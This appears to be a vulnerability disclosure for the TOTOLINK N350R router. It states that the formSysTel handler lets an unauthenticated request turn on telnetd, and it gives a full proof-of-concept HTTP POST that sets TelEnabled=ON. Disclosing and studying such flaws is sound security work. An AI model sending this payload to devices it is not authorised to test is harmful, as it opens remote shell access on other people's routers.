


### Overview

- Vendor : TOTOLINK
- Product : N350R
- Version : TOTOLINK_N350R_v2-IP04226A-8196C-SPI-2M16M-V1.2.3-B20130826_1_2701_ALL_0.web

### Vulnerability details

In `formSysTel` function, attackers can control the parameter`TelEnabled` to launch telnetd service.





### PoC

```
POST /boafrm/formSysTel HTTP/1.1
Host: 192.168.0.1
Content-Length: 64
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/sys_tel.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

submit-url=%2Fsys_tel.htm&TelEnabled=ON&Apply=%E5%BA%94%E7%94%A8
```
